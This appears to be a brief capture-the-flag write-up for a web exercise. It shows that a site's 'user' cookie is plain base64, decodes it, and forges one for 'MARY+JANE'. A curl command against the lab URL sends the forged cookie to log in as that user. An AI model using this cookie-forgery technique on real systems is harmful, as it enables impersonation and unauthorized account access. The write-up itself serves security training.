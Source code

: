 If look at the cookies we can see the value

> user=Sk9ITitET0U%3D

decode this as base64(`%3D` is `=`) and get

> JOHN+DOE

so if we want to be logged in as the user Mary Jane, change previous value to TUFSWStKQU5F(MARY+JANE) in browser or use curl:

> curl --cookie "user=TUFSWStKQU5F" http://ctf.infosecinstitute.com/ctf2/exercises/ex9.php